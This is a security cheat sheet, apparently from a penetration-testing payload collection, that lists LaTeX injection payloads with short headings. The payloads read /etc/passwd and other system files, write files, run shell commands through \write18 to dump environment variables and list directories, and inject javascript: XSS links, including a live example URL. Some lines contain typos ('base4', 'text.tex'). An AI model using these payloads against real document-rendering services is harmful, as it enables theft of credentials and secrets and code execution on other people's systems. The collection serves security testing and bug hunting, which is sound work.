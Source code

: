 ```yaml
---
title: LaTex Injection
categories: [Injection]
tags: [Injection, LaTex, XSS]
---
```


## Read file

```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting

```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 
```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

Live example at `http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$`

## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)